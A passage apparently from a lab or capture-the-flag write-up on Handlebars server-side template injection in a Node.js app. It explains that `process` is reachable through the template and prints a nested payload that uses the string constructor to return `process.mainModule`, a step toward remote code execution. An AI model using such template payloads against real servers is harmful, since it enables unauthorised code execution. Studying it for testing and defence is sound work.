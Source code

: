 ![Globals](./Screenshots/bikeglobal.png)

The response did not show an error, and we can see that the `[object process]` was included. This confirms that the `process` object is accessible.

Reviewing the documentation for the `process` object, we discover that it has a `mainModule` property. Although this property has been deprecated since Node.js version 14.0.0, deprecation does not mean it is inaccessible.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
```
